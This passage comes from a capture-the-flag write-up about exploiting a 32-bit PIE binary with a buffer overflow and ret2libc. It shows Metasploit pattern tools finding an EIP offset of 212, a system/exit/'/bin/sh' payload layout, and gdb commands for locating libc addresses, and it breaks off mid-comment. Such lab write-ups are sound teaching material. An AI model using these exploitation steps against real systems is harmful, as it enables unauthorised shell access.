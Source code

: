 ![](/spindel/assets/Bypass%20PIE%20(32-bit)%20-%20Ret2libc/B3207A83-BCD7-46B8-BAF8-67C49C51CC36.png)

While investigating on this, I also tried to look for `function_addr_table` as 0xdf mentioned but I didnt saw it anywhere from my Ghidra output.

![](/spindel/assets/Bypass%20PIE%20(32-bit)%20-%20Ret2libc/56A5AC4B-D1AD-4622-82A3-ADBF6919B975.png)

The `scanf` is accepting only a buffer size of 204. This means beyond that, we can initiate the overflow.

Moving along, since we have now a better look in whats the binary is doing inside, we can now proceed on finding the offset and constructing our payload. Do this inside attacker machine.

```bash
# outside gdb
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 250

# inside gdb
# [...redacted...]
Disable Security Force Fields
Enter Security Override:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A

Program received signal SIGSEGV, Segmentation fault.
0x31684130 in ?? ()

# outside gdb again
➜  enterprise /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x31684130          
[*] Exact match at offset 212
➜  enterprise 

# EIP offset is 212
```

Since the PIE is enabled, meaning the program code region addresses will change, we will use ret2libc method to make it easier. Our payload format would be:

```
nop + system_addr + exit_addr + binsh_addr
```

Let's go back to victim machine and find the addresses using gdb.

```bash
# Initialize binary
(gdb) b *main
Breakpoint 1 at 0xc91
(gdb) run

# Find system
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e4c060 <system>

# Find exit
(gdb) p exit  
$2 = {<text variable, no debug info>} 0xf7e3faf0 <exit>

# Find /bin/sh
# NOTE: This is part is critical, there are a lot of options
#       but we need to carefully choose what to use. Since our
#       program accepts accepts a string input and a newline,
#       0x0a, we need to avoid 0x0a to prevent from breaking
#       the payload. We can choose all others except
#       0xf7f70a14. In this example, i will just choose the
```